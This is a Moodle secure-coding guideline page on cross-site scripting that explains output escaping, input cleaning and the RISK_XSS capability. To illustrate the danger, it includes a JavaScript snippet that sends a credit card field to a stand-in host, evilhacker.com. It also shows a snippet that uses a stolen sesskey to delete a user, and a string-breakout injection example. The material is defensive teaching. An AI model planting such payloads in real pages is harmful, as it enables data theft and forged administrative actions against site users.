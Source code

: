 ```yaml
---
title: Cross-site scripting
sidebar_position: 4
tags:
  - Coding guidelines
  - Policies
  - Security
---
```


:::note

This page forms part of the [Moodle security guidelines](../security).

:::

## What is the danger?

Normally, web browsers prevent JavaScript from the server from affecting content that comes from another server. For example, suppose that on your Moodle page (`http://mymooodle.com`, you have an iframe displaying an advert from `http://makemerich.com`. Then, the JavaScript code in the advert cannot access anything on your page.

In Moodle, we actually let users type in HTML, then we display that HTML as part of our web site. Therefore, any JavaScript they manage to include will have full access to everything on the page.

Why is that a problem? Well, suppose Evil Hacker manages to get some code like

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://evilhacker.com/savedata.php?creditcard=' +
     document.getElementById('creditcard').value + '" />');
```

on a page where the user types in their credit card number. Actually, that scenario is quite unlikely in Moodle, but there are more plausible scenarios that are possible.

Another problem is that XSS makes it much easier for Evil Hacker get round sesskey protection. For example:

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://example.com/moodle/user/delete.php?id=123&confirm=1&sesskey=' +
     document.getElementById('sesskey').value + '" />');
```

Or even more sophisticated, the JavaScript to do that as a POST request, in a forum where an Administrator would go, would be very bad.

Note that, at least in Internet Explorer, JavaScript can be hidden in CSS style information, as well as in the HTML. Java applets can also be used to execute scripting, as well as the browser's JavaScript engine.

Note also that dangerous content may not only be input into Moodle directly by a user. It may also come, for example, from an external RSS feed.

## How Moodle avoids this problem

The simplest solution to XSS attacks is to **never let the user input rich content** like HTML or upload plugins like Java applets. Unfortunately, with Moodle we want to let our users communicate using rich content. For example, we want students to be able to express themselves by making forum posts in flashing orange text. We want teacher to be able to upload interesting applets for use by their students. Therefore, we have to compromise.

### Escaping output

Moodle divides content that has been input by the user into four categories:

1. **Plain text content**. For example, a student's response to a short answer question.
2. **Labels that are plain text**, except that they main contain multi-lang spans. For example, a course name or section heading.
3. **HTML (or wiki, markdown) content**, that might have been input by anyone. For example, the body of a forum post.
4. **HTML (or wiki, markdown) content**, that could only have been input by a **trusted user**, like a teacher. For example, the body of a web page resource.

Depending on the type of content, you need to use the appropriate function to output it. For example, if you have plain text content, you should use the `s()` function to output it. That will replace any `<` character with `&lt;`. If that is done, there is no way that the input can be interpreted as JavaScript.

### Escaping output 2 - JavaScript

The other place you need to be careful is when you are sending data to JavaScript. For example, if you generate JavaScript in your PHP code like

```php
echo '<script type="text/javascript">';
echo 'alert("' . $userinput . '");';
echo '</script>';
```

and Evil hacker can make `$userinput` equal to something like:

```php
); /* Do something evil. */ (
```

then they can get whatever code they choose to put in the `/* Do something evil. */` space to run within your web page.

The best solution is to not echo JavaScript like this. Instead, follow the [JavaScript guidelines](/docs/guides/javascript), and put your JavaScript in an external file, and communicate with it using `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call`. Those two methods properly encode any PHP data to be passed to JavaScript using `json_encode`.

### Cleaning input

The other part of the protection is cleaning up data as it comes in. This is done using the `optional_param` or `required_param` functions. For example, if you say you are expecting an integer as input, by passing `PARAM_INT`, then you will only get an integer back. Once you know that a variable only contains an integer value, you can be sure it does not contain any malicious JavaScript.

However, for very complex input, like HTML, doing the cleaning is very tricky, and the code is likely to handle some complex situations badly. The algorithms will almost certainly be improved in the future, so for complex content, we store the raw input in the database, and only do the cleaning when it is output, using the latest algorithms.

## What you need to do in your code

- Get input values using `optional_param` or `required_param` with an appropriate `PARAM_*` type, to ensure that only data of the type you expect is accepted.
- Alternatively, use a [[lib/formslib.php|moodleforms]], with appropriate `->setType` calls in the form definition.
- Clean or escape content appropriately on output.
  - Use `s()` or `p()` to output plain text content (type 1 above).
  - Use `format_string` to output content with minimal HTML like multi-lang spans (type 2 above).
  - Use `format_text` to output all other content (types 3 and 4 above). How carefully it is cleaned (that is, the difference between type 3 and 4) depends on the `$options->noclean` argument to `format_text`.
- Any place where a use can input content that is output by `format_text`, `$options->noclean`, must be protected by a capability check, and the capability must be marked as `RISK_XSS`.
- When sending data to JavaScript code:
  - Use the `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call` methods.
  - In Moodle 1.9 and earlier, escape the data with `addslashes_js` before printing it into the JavaScript code.

:::info

Follow the [[Output functions]] link to get a best understanding of how dynamic data should be sent from Moodle to the browser.

:::

## What you need to do as an administrator

- Do not allow a user to have a capability with `RISK_XSS` unless you trust them.
  - The [Security overview](https://docs.moodle.org//en/Security_overview) report can help you check this.
- From Moodle 3.5 onwards, you can enable setting **Content cleaning everywhere**(`$CFG->forceclean`).

## See also

- [Security](../security)
- [[Coding]]
